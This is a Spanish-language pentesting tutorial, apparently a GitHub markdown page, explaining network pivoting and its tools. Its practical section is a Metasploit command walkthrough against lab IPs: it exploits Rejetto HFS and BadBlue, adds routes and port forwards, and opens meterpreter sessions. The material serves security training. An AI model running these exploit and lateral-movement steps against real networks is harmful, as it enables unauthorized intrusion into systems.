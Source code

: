 # Pivoting en Ciberseguridad

## Introducción
El pivoting es una técnica esencial en el mundo de la ciberseguridad que implica moverse lateralmente dentro de una red comprometida para acceder a sistemas y recursos adicionales. Esta técnica es utilizada por los profesionales de seguridad para mantener y expandir el acceso a través de una infraestructura comprometida.

## ¿Qué es el Pivoting?
En términos sencillos, el pivoting se refiere a la acción de utilizar una máquina comprometida como punto de entrada para acceder a otros sistemas dentro de la red. Esta técnica es particularmente útil cuando se ha obtenido acceso a un sistema perimetral y se busca infiltrarse en segmentos de red más internos.

## Tipos de Pivoting
Existen varios tipos de pivoting en función de cómo se realiza el movimiento lateral:

- **Pivoting Directo:** Se realiza desde la máquina comprometida hacia otros sistemas dentro de la misma red.
- **Pivoting a Través de Saltos:** Implica moverse a través de múltiples máquinas comprometidas para alcanzar el objetivo deseado.
- **Pivoting en Cadena:** Consiste en conectar varios sistemas comprometidos para llegar a la red objetivo.

## Herramientas y Técnicas
Para llevar a cabo el pivoting, los profesionales de seguridad utilizan herramientas y técnicas específicas, como:

- **SSH Túneles:** Establecer conexiones seguras a través de SSH para redirigir tráfico.
- **Proxychains:** Enrutamiento de tráfico a través de una cadena de proxies.
- **Port Forwarding:** Redireccionamiento de puertos para acceder a servicios internos.
- **VPN y Socks:** Uso de VPN o servidores SOCKS para ocultar el origen del tráfico.

## Importancia en la Ciberseguridad
El pivoting es una habilidad crucial para los analistas de seguridad y los pentesters, ya que les permite comprender la amplitud de una infracción y evaluar la exposición potencial en una red comprometida. Además, ayuda a identificar y remediar posibles puntos de entrada y movimiento lateral en futuros ataques.

## Caso Práctico
![Pivoting](pivoting.png)

Esta imagen en lo personal me encanta, ilustra de manera perfecta de lo que quiere tratar el pivoting, en base a esta imagen vamos a tener una máquina víctima con IP 10.4.20.196 y otra máquina víctica con IP 10.4.20.195. El primer equipo, es vulnerable a rejetto_hfs_exec.
```python
Victim Machine 1 : 10.4.20.196
Victim Machine 2 : 10.4.20.195
nmap -sV 10.4.20.196
//tiene una vulnerabilidad en 80/tcp    open  http               HttpFileServer httpd 2.3
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.4.20.196
ipconfig
//Interface 12 vemos lo siguiente
IPv4 Address : 10.4.20.196
IPv4 Netmask : 255.255.240.0
//debemos de establecer un ruteo para leer otras IP
run autoroute -s 10.4.20.0/20
background (ahora si guardamos la sesión)
use auxiliary/scanner/portscan/tcp (para escanear puertos)
set rhosts 10.4.20.195 (IP target 2)
set PORTS 1-100
run
//veremos algo como esto
[+] 10.4.20.195:          - 10.4.20.195:80 - TCP OPEN
//retornamos a la sesion para hacer un port foward
session 1
portfwd add -l 1234 -p 80 -r 10.4.20.195 (IP del target 2)
portfwd list (para validar)
//sin cerrar metasploit ejecutamos los siguiente en una terminal
nmap -sV -sS -p 1234 localhost
1234/tcp open  http    BadBlue httpd 2.7
//hay una vulnerabalidad para eso
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS 10.4.20.195 (IP del objetivo 2)
run
background
session
(veremos 2 sesiones !!)
```

## Chisel, Socat y Proxychains
Como no hablar del favorito de todos, te permite realizar el pivoting y moverte de forma lateral por la red teniendo el control de las comunicaciones. Chisel es una herramienta que permite crear túneles TCP sobre conexiones HTTP y HTTPS. Puede ser utilizado tanto en la máquina comprometida como en la máquina atacante para establecer una comunicación segura y encriptada entre ellas. Chisel es útil para sortear restricciones de firewall y para acceder a sistemas internos desde una posición comprometida. Socat es una utilidad multipropósito que permite crear conexiones bidireccionales entre dos puntos. Puede utilizarse para redirigir tráfico, modificar datos en tránsito y más. Socat es versátil y se adapta a diversas necesidades de pivoting. Proxychains es una herramienta que permite enrutar conexiones a través de una cadena de servidores proxy. Es especialmente útil para mantener el anonimato y redirigir tráfico a través de múltiples puntos.
